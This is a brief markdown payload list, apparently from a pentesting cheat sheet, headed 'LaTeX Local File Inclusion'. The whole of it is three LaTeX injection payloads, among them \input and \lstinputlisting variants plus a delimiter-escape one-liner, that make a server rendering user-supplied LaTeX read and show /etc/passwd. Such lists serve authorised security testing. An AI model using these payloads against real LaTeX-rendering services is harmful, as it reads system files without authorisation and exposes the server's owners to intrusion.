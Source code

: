 # LaTeX Local File Inclusion

### Payloads:

 - \input{/etc/passwd}

 - \lstinputlisting{/etc/passwd}

 - $$\\lstinputlisting{/etc/passwd}$ (Delimiter escape. One-liner)
